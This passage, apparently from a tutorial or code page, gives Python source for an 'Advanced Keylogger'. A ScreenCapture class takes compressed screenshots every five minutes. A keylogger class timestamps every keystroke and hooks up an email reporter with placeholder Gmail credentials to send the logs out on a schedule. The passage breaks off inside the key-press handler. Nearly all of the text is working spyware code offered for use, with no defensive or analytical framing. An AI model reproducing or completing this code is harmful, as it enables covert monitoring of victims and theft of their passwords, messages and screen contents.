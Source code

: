```python
        except Exception as e:
            logging.error(f"Email send failed: {e}")
```

### Screenshot Capture
```python
import pyautogui
from PIL import Image
import io
import base64

class ScreenCapture:
    def __init__(self):
        self.screenshot_interval = 300  # 5 minutes
    
    def capture_screen(self):
        try:
            screenshot = pyautogui.screenshot()
            
            # Compress image
            buffer = io.BytesIO()
            screenshot.save(buffer, format='JPEG', quality=50)
            
            # Encode to base64
            img_data = base64.b64encode(buffer.getvalue()).decode()
            
            return img_data
        except Exception as e:
            logging.error(f"Screenshot failed: {e}")
            return None
```

### Advanced Keylogger Class
```python
import threading
import time
from datetime import datetime, timedelta

class AdvancedKeylogger:
    def __init__(self, log_file="keylog.txt", email_interval=3600):
        self.log_file = log_file
        self.email_interval = email_interval
        self.last_email = datetime.now()
        self.buffer = []
        self.running = False
        
        # Initialize components
        self.email_reporter = EmailReporter("your_email@gmail.com", "your_password")
        self.screen_capture = ScreenCapture()
    
    def on_press(self, key):
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
        
        try:
            key_data = f"[{timestamp}] {key.char}"
        except AttributeError:
            if key == keyboard.Key.space:
                key_data = f"[{timestamp}] [SPACE]"
            elif key == keyboard.Key.enter:
                key_data = f"[{timestamp}] [ENTER]"
            else:
                key_data = f"[{timestamp}] [{key}]"
        
```